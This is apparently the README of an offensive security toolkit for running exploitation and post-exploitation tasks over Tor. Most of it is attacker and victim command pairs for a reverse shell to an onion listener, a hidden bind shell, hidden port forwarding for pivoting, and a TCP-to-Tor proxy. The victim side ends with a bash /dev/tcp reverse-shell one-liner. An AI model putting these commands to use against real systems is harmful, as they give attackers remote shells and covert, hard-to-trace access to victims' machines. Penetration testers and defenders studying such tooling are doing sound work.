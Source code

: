 # Offensive Tor Toolkit
**Offensive Tor Toolkit** is a series of tools that simplify the use of Tor for typical **exploitation and post-exploitation tasks**.

In exploitation and post-exploitation phases, the victim needs to access Tor. All of this tools have an **embedded instance of Tor** and they are completely separated from each other. In this way, you only need to upload one file to the victim in order to run the required action.

Please, read the [**docs**](https://atorrescogollo.gitbook.io/offensive-tor-toolkit/) for more information.

## TL;DR
### Download Offensive Tor Toolkit

```text
export VERSION=$(
    curl -s "https://api.github.com/repos/atorrescogollo/offensive-tor-toolkit/releases" \
     | jq -r '.[].name | select(. | test("v[0-9]+\\."))' \
     | sort -rV | head -1
)

# Download the release
wget https://github.com/atorrescogollo/offensive-tor-toolkit/releases/download/${VERSION}/offensive-tor-toolkit-${VERSION}.tar.gz

# Uncompress
tar -xvzf offensive-tor-toolkit-${VERSION}.tar.gz

# Move to /opt/offensive-tor-toolkit/
sudo mv offensive-tor-toolkit-${VERSION}* /opt
sudo ln -sf offensive-tor-toolkit-${VERSION} /opt/offensive-tor-toolkit
cd /opt/offensive-tor-toolkit
```

### Reverse Shell over Tor

**Attacker**

```text
$ grep '^HiddenServicePort' /etc/tor/torrc
HiddenServicePort 4444 127.0.0.1:4444
$ nc -lvnp 4444
```

**Victim**

```text
$ ./reverse-shell-over-tor -listener m5et..jyd.onion:4444
```

### Bind Shell over Tor

**Victim**

```text
$ ./hidden-bind-shell -data-dir /tmp/datadir/ -hiddensrvport 1234
...
Bind shell is listening on hgnzi...g6yew.onion:1234
```

**Attacker**

```text
$ alias nctor='nc --proxy 127.0.0.1:9050 --proxy-type socks5'
$ nctor -v hgnzi...g6yew.onion 1234
```

### Hidden Port Forwarding

**Victim/Pivot**

```text
$ ./hidden-portforwarding -data-dir /tmp/pf-datadir -forward 127.0.0.1:1111 -hidden-port 9001
...
Forwarding xa7l...a4el.onion:9001 -> 127.0.0.1:8080
```

**Attacker**

```text
$ alias curltor="curl --socks5-hostname 127.0.0.1:9050"
$ curltor http://xa7l...a4el.onion:9001/
```

### TCP2Tor Proxy

**Attacker**

```text
$ grep '^HiddenServicePort' /etc/tor/torrc
HiddenServicePort 4444 127.0.0.1:4444
$ nc -lvnp 4444
```

**Pivot**

```text
$ ./tcp2tor-proxy -listen 0.0.0.0:60101 -onion-forward m5et..jyd.onion:4444
...
Proxying 0.0.0.0:60101 -> m5et..jyd.onion:4444
```

**Victim**

```text
$ bash -i >& /dev/tcp/<PIVOT_IP>/60101 0>&1
```
